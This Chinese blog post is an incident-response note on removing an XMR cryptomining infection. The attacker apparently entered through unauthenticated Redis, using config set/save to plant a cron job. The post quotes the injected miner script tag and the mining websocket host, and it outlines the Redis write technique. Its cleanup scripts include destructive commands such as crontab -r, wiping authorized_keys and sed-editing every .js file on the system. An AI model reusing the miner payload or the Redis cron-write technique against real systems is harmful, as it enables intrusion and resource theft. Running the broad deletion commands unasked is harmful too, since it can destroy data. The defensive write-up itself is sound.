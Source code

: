 #+TITLE:  XMR 恶意挖矿脚本处理笔记 
#+AUTHOR:    zrg
#+EMAIL:     zrg1390556487@gmail.com
#+LANGUAGE:  cn
#+OPTIONS:   H:3 num:t toc:nil \n:nil @:t ::t |:t ^:nil -:t f:t *:t <:t
#+OPTIONS:   TeX:t LaTeX:t skip:nil d:nil todo:t pri:nil tags:not-in-toc
#+INFOJS_OPT: view:plain toc:t ltoc:t mouse:underline buttons:0 path:http://cs3.swfc.edu.cn/~20121156044/.org-info.js />
#+HTML_HEAD: <link rel="stylesheet" type="text/css" href="http://cs3.swfu.edu.cn/~20121156044/.org-manual.css" />
#+EXPORT_SELECT_TAGS: export
#+HTML_HEAD_EXTRA: <style>body {font-size:14pt} code {font-weight:bold;font-size:12px; color:darkblue}</style>
#+EXPORT_EXCLUDE_TAGS: noexport
#+LINK_UP:   
#+LINK_HOME: 
#+XSLT: 

#+STARTUP: showall indent
#+STARTUP: hidestars
#+BEGIN_EXPORT HTML
---
layout: post
title: XMR 恶意挖矿脚本处理笔记
author: zrg
description:   
excerpt: 
comments: false
categories: 
- Linux
tags:
- 恶意挖矿
- 病毒
---
#+END_EXPORT

# (setq org-export-html-use-infojs nil)
感谢您阅读此文，如果您发现任何错误，请发邮件至 zrg1390556487@gmail.com，谢谢！
# (setq org-export-html-style nil)

* 事件描述
** 概况
: 服务器安装系统为 CentOS 7，服务器用户一直采用密钥登录，通过用户登入攻击的可能性几乎为零。
: 服务器上所有站点使用宝塔面板面板管理，所以可能性是通过攻破了宝塔面板进入，然后注入恶意挖矿脚本的。
: 网站无法加载，会出现浏览器卡死的情况。
** 表象
: 下面陈述被攻击后的表象：
+ 服务器资源被大量占用，资源占用率飙升；
+ 服务器所有JS文件被篡改，向输出页面增加了一个script标签（document.write('<script src="http://t.cn/EvlonFh"></script><script>OMINEId("e02cf4ce91284dab9bc3fc4cc2a65e28","-1")</script>');）
+ 网站无法加载，会出现浏览器卡死的情况
* 问题排查及解决
** 排查
: 1. 访问服务器上运行的站点（包括宝塔面板），F12，发现不停访问一个wss的地址（wss://xmr.omine.org:8181/），并且很慢。
: 2. 搜索这个地址，得知此为 XMR 恶意挖矿脚本。
: 3. 查看系统任务计划，发现定期恶意脚本的计划内容
: # crontab -l
: 4. 由于redis没有安全配置，黑客利用redis安全漏洞入侵了服务器。
: 攻击者通过redis命令 config set与save完成入侵过程.使用redis-cli -h <ip> <port> 登录服务redis-server，
: 将redis的数据文件改到/var/spool/cron/root文件中，再通save 命令将定时任务shell脚本写入到/var/spool/cron/root 中，
: 完成定时执行shell脚本，来实现提权及其它操作。
** 解决
: 1. 整理清理脚本
#+NAME: 清理脚本
#+BEGIN_SRC shell
# 先关掉redis端口
iptables -A INPUT -p tcp --dport 6379 -j DROP
# 清理定时任务
crontab -r
# 清除redis key Back1 Back3 Back3
redis-cli -h xxx.xxx.xxx.xxx -x del Back1
redis-cli -h xxx.xxx.xxx.xxx -x del Back2
redis-cli -h xxx.xxx.xxx.xxx -x del Back3
redis-cli -h xxx.xxx.xxx.xxx -x CONFIG SET dbfilename dump.rdb
redis-cli -h xxx.xxx.xxx.xxx -x CONFIG SET dir /tmp
redis-cli -h xxx.xxx.xxx.xxx -x save
# 清理运行脚本
kill -9 `ps -ef|grep shz.sh|grep -v grep|awk '{print $2}'`
kill -9 `ps -ef|grep zigw|grep -v grep|awk '{print $2}'`
kill -9 `ps -ef|grep cmd|grep -v grep|awk '{print $2}'`
chattr -i /etc/zigw
chattr -i /etc/shz.sh
chattr -i /tmp/zigw
chattr -i /tmp/shz.sh
rm -rf /etc/shz.sh
rm -rf /etc/gmbpr2
rm -rf /etc/zigw
rm -rf /tmp/zigw
rm -rf /tmp/shz.sh
rm -rf ~/.cmd
 
# 清理SSH免登录信息
cat /dev/null> ~/.ssh/authorized_keys
# 清理js脚本
find / -name '*.js'|xargs grep -L f4ce9|xargs sed -i '$d'
mv /usr/bin/get /usr/bin/wget
mv /usr/bin/url /usr/bin/curl
#+END_SRC

#+NAME: 附个清理的其它方式脚本
#+BEGIN_SRC shell
#!/bin/bash
# By xzeu
# http://www.xzeu.com
# Email: admin#xzeu.com
# Filename: clearlink.sh
 
#Begin
find / -type f -name '*.js' |xargs fgrep -s -l "e02cf4ce91284dab9bc3fc4cc2a65e28"|xargs ls -l |awk '{print $9}'>jsfile.txt
for file in `cat ~/jsfile.txt`;
do
  echo $file
  # sed -i '/e02cf4ce91284dab9bc3fc4cc2a65e28/d' $file
  # cp $file ${file}.bad
done
 
exit 0
#END
#+END_SRC

: 2. 恢复服务器中的js文件(其中grep的参数为小写的L)
: 方法一：删除站点所有感染 js 文件，从代码仓库pull，重新上传部署。
: 方法二：# find / -name '*.js' | xargs grep -l f4ce9 | xargs sed -i '/f4ce9/d'
** 预防措施
: 1. 限制内网访问，或者只限制本机访问
: 只监听内网的IP，然后在iptables里面限制访问的主机：在/etc/redis/redis.conf中配置如下：
: bind 192.168.1.100
: 如果服务只需要本机访问就直接监听127.0.0.1的回环地址就可以了。

: 2. 设置防火墙
: 如果需要其他机器访问，或者设置了slave模式，那就记得加上相应的防火墙设置，命令如下：
: iptables -A INPUT -s 192.168.1.100/32 -p tcp --dport 6379 -j ACCEPT

: 3. 禁止root用户启动redis
: 使用root权限去运行网络服务是比较有风险的（nginx和apache都是有独立的work用户，而redis没有）。
: edis crackit 漏洞就是利用root用户的权限来替换或者增加authorized_keys，来获取root登录权限的。
: 使用root切换到redis用户启动服务:
: useradd -s /sbin/nolog -M redissetsid sudo -u redis /usr/bin/redis-server /etc/redis/redis.conf

: 4. 限制redis文件目录访问权限
: 设置redis的主目录权限为700,如果redis配置文件独立于redis主目录,权限修过为600,因为redis密码明文存储在配置文件中。

: 5. 避免使用熟知的端口,降低被初级扫描的风险
: 在/etc/redis/redis.conf中配置如下：
: 找到port 6379这行，把6379改为9999，记得iptables对应的端口要修改

: 6. 开启redis密码认证,并设置高复杂度密码
: redis在redis.conf配置文件中，设置配置项requirepass， 开户密码认证。
: redis因查询效率高，auth这种命令每秒能处理10w次以上，简单的redis的密码极容易为攻击者暴破。 

: 7. 禁用或者重命名危险命令
: edis crackit漏洞就利用config/save两个命令完成攻击 。 因redis无用户权限限制，建议危险的命令，
: 使用rename配置项进行禁用或重命名，这样外部不了解重命名规则攻击者，就不能执行这类命令。涉及到的命令：
: FLUSHDB, FLUSHALL, KEYS, PEXPIRE, DEL, CONFIG, SHUTDOWN, BGREWRITEAOF, BGSAVE, SAVE, SPOP, SREM, RENAME, DEBUG, EVAL`
: 以下示例：redis.config文件禁用FLUSHDB、FLUSHALL两个命令；重命名CONFIG、SHUTDOWN命令，添加一个特殊的后缀。
: 这样redis启动后，只能运行CONFIG_b9fc8327c4dee7命令，不能执行CONFIG命令。
: rename-command CONFIG CONFIG_des327c4dee7dfsf
: rename-command SHUTDOWN SHUTDOWN_des327c4dee7dfsf
: rename-command FLUSHDB ""
: rename-command FLUSHALL ""
: 上述配置将config，flushdb，flushall设置为了空，即禁用该命令，我们也可以命名为一些攻击者难以猜测，
: 我们自己却容易记住的的名字。保存之后，执行/etc/init.d/redis-server restart 重启生效。
* 参考
+ [[https://www.cnblogs.com/Rebybyx/p/9913779.html][XMR恶意挖矿脚本处理笔记]]
+ [[https://www.freebuf.com/articles/system/186743.html][XMR恶意挖矿案例简析]]
+ [[https://www.xzeu.com/index.php/archives/120/][Redis未授权访问缺陷,服务器变矿机]]

